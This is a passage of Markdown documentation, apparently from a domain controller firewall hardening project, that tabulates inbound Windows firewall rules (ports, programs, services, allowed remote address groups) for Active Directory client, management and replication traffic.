|5985/TCP|WinRM|[Windows Remote Management (HTTP-In)](#windows-remote-management-http-in)|
|5986/TCP|WinRM|[Windows Remote Management (HTTPS-In)](#windows-remote-management-https-in)|
|49152-65535/TCP|WMI|[Windows Management Instrumentation (WMI-In)](#windows-management-instrumentation-wmi-in)|
|3389/UDP|Remote Desktop|[Remote Desktop - User Mode (UDP-In)](#remote-desktop---user-mode-udp-in)|
|3389/TCP|Remote Desktop|[Remote Desktop - User Mode (TCP-In)](#remote-desktop---user-mode-tcp-in)|
|22/TCP|SSH|[OpenSSH SSH Server (sshd)](#openssh-ssh-server-sshd)|
|49152-65535/TCP|DFS Management|[DFS Management (TCP-In)](#dfs-management-tcp-in)|
|49152-65535/TCP|DNS RPC|[RPC (TCP, Incoming)](#rpc-tcp-incoming)|
|49152-65535/TCP|Windows Backup|[Windows Backup (RPC)](#windows-backup-rpc)|
|49152-65535/TCP|Performance Logs|[Performance Logs and Alerts (TCP-In)](#performance-logs-and-alerts-tcp-in)|
|49152-65535/TCP|COM+ Remote Mng|[COM+ Remote Administration (DCOM-In)](#com-remote-administration-dcom-in)|
|49152-65535/TCP|Remote Event Log Mng |[Remote Event Log Management (RPC)](#remote-event-log-management-rpc)|
|49152-65535/TCP|Remote Scheduled Tasks Mng|[Remote Scheduled Tasks Management (RPC)](#remote-scheduled-tasks-management-rpc)|
|49152-65535/TCP|Remote Service Mng|[Remote Service Management (RPC)](#remote-service-management-rpc)|
|49152-65535/TCP|Remote Volume Mng|[Remote Volume Management - Virtual Disk Service (RPC)](#remote-volume-management---virtual-disk-service-rpc)|
|49152-65535/TCP|Remote Volume Mng|[Remote Volume Management - Virtual Disk Service Loader (RPC)](#remote-volume-management---virtual-disk-service-loader-rpc)|
|49152-65535/TCP|WINS Remote Mng|[Windows Internet Naming Service (WINS) - Remote Management (RPC)](#windows-internet-naming-service-wins---remote-management-rpc)|
|49152-65535/TCP|Firewall Remote Mng|[Windows Defender Firewall Remote Management (RPC)](#windows-defender-firewall-remote-management-rpc)|

### Client Traffic

#### Active Directory Domain Controller - W32Time (NTP-UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | W32Time-NTP-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 123 |
| Program     | `%systemroot%\System32\svchost.exe` |
| Service     | `w32time` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow NTP traffic for the Windows Time service. [UDP 123] |
| Remote Addresses | Any |

As the NTP service might be used by non-Windows clients, we do not limit the remote addresses.

#### Active Directory Domain Controller (RPC-EPMAP)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-RPCEPMAP-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 135 |
| Program     | `%systemroot%\system32\svchost.exe` |
| Service     | `rpcss` |
| Description | Inbound rule for the RPCSS service to allow RPC/TCP traffic to the Active Directory Domain Controller service. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Kerberos Key Distribution Center - PCR (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-Password-UDP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 464 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service to allow for password change requests. [UDP 464] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Kerberos Key Distribution Center - PCR (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-Password-TCP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 464 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service to allow for password change requests. [TCP 464] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-RPC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule to allow remote RPC/TCP access to the Active Directory Domain Controller service. |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - LDAP (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAP-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 389 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote LDAP traffic. [UDP 389] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - LDAP (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAP-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 389 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote LDAP traffic. [TCP 389] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Secure LDAP (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAPSEC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 636 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote Secure LDAP traffic. [TCP 636] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - LDAP for Global Catalog (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAPGC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3268 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote Global Catalog traffic. [TCP 3268] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Secure LDAP for Global Catalog (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-LDAPGCSEC-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3269 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow remote Secure Global Catalog traffic. [TCP 3269] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### DNS (UDP, Incoming)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DNSSrv-DNS-UDP-In |
| Group       | DNS Service |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 53 |
| Program     | `%systemroot%\System32\dns.exe` |
| Service     | `dns` |
| Description | Inbound rule to allow remote UDP access to the DNS service. |
| Remote Addresses | Any |

As the DNS service might be used by non-Windows clients, we do not limit the remote addresses.

#### DNS (TCP, Incoming)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DNSSrv-DNS-TCP-In |
| Group       | DNS Service |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 53 |
| Program     | `%systemroot%\System32\dns.exe` |
| Service     | `dns` |
| Description | Inbound rule to allow remote TCP access to the DNS service. |
| Remote Addresses | Any |

As the DNS service might be used by non-Windows clients, we do not limit the remote addresses.

#### Kerberos Key Distribution Center (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-TCP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 88 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service. [TCP 88] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Kerberos Key Distribution Center (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-Kerberos-UDP-In |
| Group       | Kerberos Key Distribution Center |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 88 |
| Program     | `%systemroot%\System32\lsass.exe` |
| Description | Inbound rule for the Kerberos Key Distribution Center service. [UDP 88] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - SAM/LSA (NP-UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-NP-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 445 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to be remotely managed over Named Pipes. [UDP 445] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

We are not sure if this rule is actually needed, as we have never seen UDP traffic on port 445. However, it is part of the predefined firewall rules on Windows Server and is mentioned in several official documents.

#### Active Directory Domain Controller - SAM/LSA (NP-TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-NP-TCP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 445 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to be remotely managed over Named Pipes. [TCP 445] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Echo Request (ICMPv4-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-ICMP4-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | ICMPv4 |
| ICMP Type   | 8 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow Echo requests (ping). |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - Echo Request (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-ICMP6-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 128 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow Echo requests (ping). |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Active Directory Domain Controller - NetBIOS name resolution (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADDS-NB-Datagram-UDP-In |
| Group       | Active Directory Domain Services |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 138 |
| Program     | `System` |
| Description | Inbound rule for the Active Directory Domain Controller service to allow NetBIOS name resolution. [UDP 138] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNetbiosDatagramService](#enablenetbiosdatagramservice) setting.

#### Core Networking - Destination Unreachable (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-DU-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 1 |
| Program     | `System` |
| Description | Destination Unreachable error messages are sent from any node that a packet traverses which is unable to forward the packet for any reason except congestion. |
| Scope | Any |

#### Core Networking - Destination Unreachable Fragmentation Needed (ICMPv4-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP4-DUFRAG-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv4 |
| ICMP Type   | 3:4 |
| Program     | `System` |
| Description | Destination Unreachable Fragmentation Needed error messages are sent from any node that a packet traverses which is unable to forward the packet because fragmentation was needed and the don't fragment bit was set. |
| Scope | Any|

#### Core Networking - Neighbor Discovery Advertisement (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-NDA-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 136 |
| Program     | `System` |
| Description | Neighbor Discovery Advertisement messages are sent by nodes to notify other nodes of link-layer address changes or in response to a Neighbor Discovery Solicitation request. |
| Scope | Any |

#### Core Networking - Neighbor Discovery Solicitation (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-NDS-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 135 |
| Program     | `System` |
| Description | Neighbor Discovery Solicitations are sent by nodes to discover the link-layer address of another on-link IPv6 node. |
| Scope | Any |

#### Core Networking - Packet Too Big (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-PTB-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 2 |
| Program     | `System` |
| Description | Packet Too Big error messages are sent from any node that a packet traverses which is unable to forward the packet because the packet is too large for the next link. |
| Scope | Any|

#### Core Networking - Parameter Problem (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-PP-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 4 |
| Program     | `System` |
| Description | Parameter Problem error messages are sent by nodes as a result of incorrectly generated packets. |
| Scope | Any |

#### Core Networking - Time Exceeded (ICMPv6-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | CoreNet-ICMP6-TE-In |
| Group       | Core Networking |
| Direction   | Inbound |
| Protocol    | ICMPv6 |
| ICMP Type   | 3 |
| Program     | `System` |
| Description | Time Exceeded error messages are generated from any node that a packet traverses if the Hop Limit value is decremented to zero at any point on the path. |
| Scope | Any |

#### Windows Internet Naming Service (WINS) (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINS-Service-In-TCP |
| Group       | Windows Internet Naming Service (WINS) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 42 |
| Program     | `%SystemRoot%\System32\wins.exe` |
| Service     | `WINS` |
| Description | Inbound rule for the Windows Internet Naming Service to allow WINS requests. [TCP 42] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWINS](#enablewins) setting.

#### Windows Internet Naming Service (WINS) (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINS-Service-In-UDP |
| Group       | Windows Internet Naming Service (WINS) |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 42 |
| Program     | `%SystemRoot%\System32\wins.exe` |
| Service     | `WINS` |
| Description | Inbound rule for the Windows Internet Naming Service to allow WINS requests. [UDP 42] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWINS](#enablewins) setting.

#### File and Printer Sharing (NB-Name-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FPS-NB_Name-In-UDP |
| Group       | File and Printer Sharing |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 137 |
| Program     | `System` |
| Description | Inbound rule for File and Printer Sharing to allow NetBIOS Name Resolution. [UDP 137] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNetbiosNameService](#enablenetbiosnameservice) setting.

#### File and Printer Sharing (NB-Session-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | FPS-NB_Session-In-TCP |
| Group       | File and Printer Sharing |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 139 |
| Program     | `System` |
| Description | Inbound rule for File and Printer Sharing to allow NetBIOS Session Service connections. [TCP 139] |
| Remote Addresses | [Client Computers](#clientaddresses), [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableNetbiosSessionService](#enablenetbiossessionservice) setting.

### Management Traffic

#### Active Directory Web Services (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ADWS-TCP-In |
| Group       | Active Directory Web Services |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 9389 |
| Program     | `%systemroot%\ADWS\Microsoft.ActiveDirectory.WebServices.exe` |
| Service     | `adws` |
| Description | Inbound rule for the Active Directory Web Services. [TCP] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Windows Remote Management (HTTP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINRM-HTTP-In-TCP-PUBLIC |
| Group       | Windows Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 5985 |
| Program     | `System` |
| Description | Inbound rule for Windows Remote Management via WS-Management. [TCP 5985] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWindowsRemoteManagement](#enablewindowsremotemanagement) setting.

#### Windows Remote Management (HTTPS-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINRM-HTTPS-In-TCP-PUBLIC |
| Group       | Windows Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 5986 |
| Program     | `System` |
| Description | Inbound rule for Windows Remote Management via WS-Management. [TCP 5986] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This custom rule is governed by the [EnableWindowsRemoteManagement](#enablewindowsremotemanagement) setting.

#### Windows Management Instrumentation (WMI-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WMI-WINMGMT-In-TCP |
| Group       | Windows Management Instrumentation (WMI) |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | Any |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `winmgmt` |
| Description | Inbound rule to allow WMI traffic for remote Windows Management Instrumentation. [TCP] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Remote Desktop - User Mode (UDP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteDesktop-UserMode-In-UDP |
| Group       | Remote Desktop |
| Direction   | Inbound |
| Protocol    | UDP |
| Port        | 3389 |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `termservice` |
| Description | Inbound rule for the Remote Desktop service to allow RDP traffic. [UDP 3389] |
| Remote Addresses | [Management Computers](#managementaddresses) |

This rule is governed by the [EnableRemoteDesktop](#enableremotedesktop) setting.

#### Remote Desktop - User Mode (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteDesktop-UserMode-In-TCP |
| Group       | Remote Desktop |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 3389 |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `termservice` |
| Description | Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] |
| Remote Addresses | [Management Computers](#managementaddresses) |

This rule is governed by the [EnableRemoteDesktop](#enableremotedesktop) setting.

#### OpenSSH SSH Server (sshd)

| Property    | Value |
|-------------|----------------------------------------------------------|
| Name        | OpenSSH-Server-In-TCP |
| Group       | OpenSSH Server |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | 22 |
| Program     | `%SystemRoot%\system32\OpenSSH\sshd.exe` |
| Description | Inbound rule for OpenSSH SSH Server (sshd) |
| Remote Addresses | [Management Computers](#managementaddresses) |

This rule is governed by the [EnableOpenSSHServer](#enableopensshserver) setting.

#### DFS Management (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DfsMgmt-In-TCP |
| Group       | DFS Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\dfsfrsHost.exe` |
| Description | Inbound rule for DFS Management to allow the DFS Management service to be remotely managed via DCOM. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### RPC (TCP, Incoming)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | DNSSrv-RPC-TCP-In |
| Group       | DNS Service |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\System32\dns.exe` |
| Service     | `dns` |
| Description | Inbound rule to allow remote RPC/TCP access to the DNS service. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

#### Windows Backup (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WindowsServerBackup-wbengine-In-TCP-NoScope |
| Group       | Windows Backup |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\wbengine.exe` |
| Service     | `wbengine` |
| Description | Inbound rule for the Windows Backup Service to be remotely managed via RPC/TCP |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableBackuManagement](#enablebackupmanagement) setting.

#### Performance Logs and Alerts (TCP-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | PerfLogsAlerts-PLASrv-In-TCP-NoScope |
| Group       | Performance Logs and Alerts |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | Any |
| Program     | `%systemroot%\system32\plasrv.exe` |
| Description | Inbound rule for Performance Logs and Alerts traffic. [TCP-In] |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnablePerformanceLogAccess](#enableperformancelogaccess) setting.

#### COM+ Remote Administration (DCOM-In)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | ComPlusRemoteAdministration-DCOM-In |
| Group       | COM+ Remote Administration |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%systemroot%\system32\dllhost.exe` |
| Service     | `COMSysApp` |
| Description | Inbound rule to allow DCOM traffic to the COM+ System Application for remote administration. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableComPlusManagement](#enablecomplusmanagement) setting.

#### Remote Event Log Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteEventLogSvc-In-TCP |
| Group       | Remote Event Log Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `Eventlog` |
| Description | Inbound rule for the local Event Log service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableEventLogManagement](#enableeventlogmanagement) setting.

#### Remote Scheduled Tasks Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteTask-In-TCP |
| Group       | Remote Scheduled Tasks Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `schedule` |
| Description | Inbound rule for the Task Scheduler service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableScheduledTaskManagement](#enablescheduledtaskmanagement) setting.

#### Remote Service Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteSvcAdmin-In-TCP |
| Group       | Remote Service Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\services.exe` |
| Description | Inbound rule for the local Service Control Manager to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableServiceManagement](#enableservicemanagement) setting.

#### Remote Volume Management - Virtual Disk Service (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RVM-VDS-In-TCP |
| Group       | Remote Volume Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\vds.exe` |
| Service     | `vds` |
| Description | Inbound rule for the Remote Volume Management - Virtual Disk Service to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableDiskManagement](#enablediskmanagement) setting.

#### Remote Volume Management - Virtual Disk Service Loader (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RVM-VDSLDR-In-TCP |
| Group       | Remote Volume Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\vdsldr.exe` |
| Description | Inbound rule for the Remote Volume Management - Virtual Disk Service Loader to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableDiskManagement](#enablediskmanagement) setting.

#### Windows Internet Naming Service (WINS) - Remote Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | WINS-Service-In-RPC |
| Group       | Windows Internet Naming Service (WINS) - Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\System32\wins.exe` |
| Service     | `WINS` |
| Description | Inbound rule for the Windows Internet Naming Service to allow remote management via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableWINS](#enablewins) setting.

#### Windows Defender Firewall Remote Management (RPC)

| Property    | Value |
|-------------|---------------------------------------------------|
| Name        | RemoteFwAdmin-In-TCP |
| Group       | Windows Defender Firewall Remote Management |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\svchost.exe` |
| Service     | `policyagent` |
| Description | Inbound rule for the Windows Defender Firewall to be remotely managed via RPC/TCP. |
| Remote Addresses | [Management Computers](#managementaddresses), [Domain Controllers](#domaincontrolleraddresses) |

This rule is governed by the [EnableFirewallManagement](#enablefirewallmanagement) setting.

### DC Replication Traffic

#### DFS Replication (RPC-In)

| Property    | Value |
|-------------|----------------------------------------------------------|
| Name        | DFSR-DFSRSvc-In-TCP |
| Group       | DFS Replication |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\dfsrs.exe` |
| Service     | `Dfsr` |
| Description | Inbound rule to allow DFS Replication RPC traffic. |
| Remote Addresses | [Domain Controllers](#domaincontrolleraddresses) |

#### File Replication (RPC)

| Property    | Value |
|-------------|----------------------------------------------------------|
| Name        | NTFRS-NTFRSSvc-In-TCP |
| Group       | File Replication |
| Direction   | Inbound |
| Protocol    | TCP |
| Port        | RPC |
| Program     | `%SystemRoot%\system32\NTFRS.exe` |
| Service     | `NTFRS` |
| Description | Inbound rule to allow File Replication RPC traffic. |
| Remote Addresses | [Domain Controllers](#domaincontrolleraddresses) |
